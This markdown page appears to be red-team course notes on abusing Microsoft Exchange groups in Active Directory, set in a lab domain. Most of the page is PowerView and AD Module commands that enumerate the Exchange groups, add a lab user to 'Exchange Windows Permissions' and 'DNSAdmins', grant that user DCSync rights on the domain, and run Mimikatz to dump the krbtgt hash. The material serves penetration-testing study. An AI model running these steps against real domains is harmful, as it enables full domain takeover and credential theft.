

# Cross Trust Attacks - MS Exchange

- [Cross Trust Attacks - MS Exchange](#cross-trust-attacks---ms-exchange)
  - [MS Exchange](#ms-exchange)
  - [MS Exchange Interesting Groups](#ms-exchange-interesting-groups)
  - [Abusing MS Organization Manager](#abusing-ms-organization-manager)
  - [Abusing Exchange Trusted Subsystem](#abusing-exchange-trusted-subsystem)

---

  

<br/>

## MS Exchange

| Group Name | Abusable Permissions | Members |
|--|--|--|
| Exchange Trusted subsystem | Can modify DACL of DNSAdmins* and other groups** which inherit DACL from domain object and are not protected by AdminSDHolder (Can set permissions like ability to add members etc.)<br/><br/>Member of local administrators on exchange servers | Exchange Server computers are member of this group (not the Exchange Servers group) |
| Exchange Windows Permissions | Write DACL on domain object** (Can set permissions on the domain object which can be used for DCSync and more attacks).<br/><br/>Can add members to DNSAdmins | Exchange Trusted Subsystem |
| Organization management | Has Full Control over Exchange Windows Permissions group. <br/><br/>Member of local administrators on exchange servers. | Default Domain Admin user |

Note:
\* Removed in Exchange 2019 CU2 - 'There is a deny ACE on the DNS admins group along with removing the right for Exchange to assign SPNs.'
- https://blogs.technet.microsoft.com/rmilne/2019/06/18/exchange-2019-cu2-released<br/>
\*\* Removed in Exchange 2019 CU1
- https://support.microsoft.com/en-us/help/4490059/using-shared-permissions-model-to-run-exchange-server

<br/>

## MS Exchange Interesting Groups

Enumerate if we have `exchange groups` in `techcorp.local` domain:

- PowerView

```
Get-DomainGroup *exchange* -Domain techcorp.local
```

- AD Module:

```
Get-ADGroup -Filter 'Name -like "*exchange*"' -Server techcorp.local
```

<br/>

Enumerate `Organization Management Group` as well:

- PowerView

```
Get-DomainGroupMember "Organization Management" -Domain techcorp.local
```

- AD Module

```
Get-ADGroupMember -Identity "Organization Management" -Server techcorp.local
```

<br/>

## Abusing MS Organization Manager

If we have privileges of '`exchange manager`', who is a member of the **Organization Management**, we can add a user to the 'Exchange Windows Permissions' group.

- PowerView

```
$user = Get-DomainUser -Identity studentuser64
```

```
$group = Get-DomainGroup -Identity 'Exchange Windows Permissions' -Domain techcorp.local
```

```
Add-DomainGroupMember -Identity $group -Members $user -Verbose
```

- AD Module

```
$user = Get-ADUser -Identity studentuser64
```

```
$group = Get-ADGroup -Identity 'Exchange Windows Permissions' -Server techcorp.local
```

```
Add-ADGroupMember -Identity $group -Members $user -Verbose
```

<br/>

Now, as `studentuser64` (new session and after some time), we can simply add the permissions to run **DCSync**. This holds true for any user who is a part of **Enterprise Windows Permissions group**:

- PowerView_dev

```
Add-DomainObjectAcl -TargetIdentity 'DC=techcorp,DC=local' -PrincipalIdentity 'us\studentuser64' -Rights DCSync -Verbose
```

Then execute DCSync:

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:techcorp\krbtgt /domain:techcorp.local"'
```

<br/>

## Abusing Exchange Trusted Subsystem

Enumerate membership of Exchange Trusted Subsystem in `techcorp.local`:

- PowerView

```
Get-DomainGroupMember "Exchange Trusted Subsystem" -Domain techcorp.local
```

- AD Module

```
Get-ADGroupMember -Identity "Exchange Trusted Subsystem" -Server techcorp.local
```

<br/>

If we have privileges of '`exchange user`', who is a member of the `Exchange Trusted Subsystem`, we can add any user to the `DNSAdmins` group:

- PowerView_dev

```
$user = Get-DomainUser -Identity studentuser64
```

```
$group = Get-DomainGroup -Identity 'DNSAdmins' -Domain techcorp.local
```

```
Add-DomainGroupMember -Identity $group -Members $user -Verbose
```

- AD Module

```
$user = Get-ADUser -Identity studentuser64
```

```
$group = Get-ADGroup -Identity 'DNSAdmins' -Server techcorp.local
```

```
Add-ADGroupMember -Identity $group -Members $user -Verbose
```

<br/>

